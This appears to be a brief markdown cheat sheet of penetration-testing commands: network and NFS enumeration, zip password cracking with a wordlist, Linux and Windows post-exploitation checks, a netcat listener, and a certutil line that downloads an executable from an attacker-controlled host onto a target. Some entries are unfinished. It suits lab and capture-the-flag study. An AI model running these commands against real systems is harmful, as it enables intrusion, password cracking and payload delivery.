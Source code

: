 ## Enumeration 
arp-scan -l

showmount -e <server ip>

mount -t nfs <server ip>:<remote path shown from showmount> <to local mount point>

nmap -sV -A -T4 -p- 

nmap --sC ? 

gobuster ######

## Cracking
Zip files: fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt <target.zip>

## Linux Post Exploitation
history

pwd

sudo -l

crontab -l

## Windows Post Exploitation
cd

whoami

ipconfig

dir

sc stop <application>

sc start <application>

sc query <application>

certutil.exe -urlcache -f http://<attackerip>:8000/<application.exe> <applicationname.exe>

## Listener
nc -nlvp

## Directory hosting
python -m SimpleHTTPServer

## Linux wget and curl commands

## Windows Certutil commands

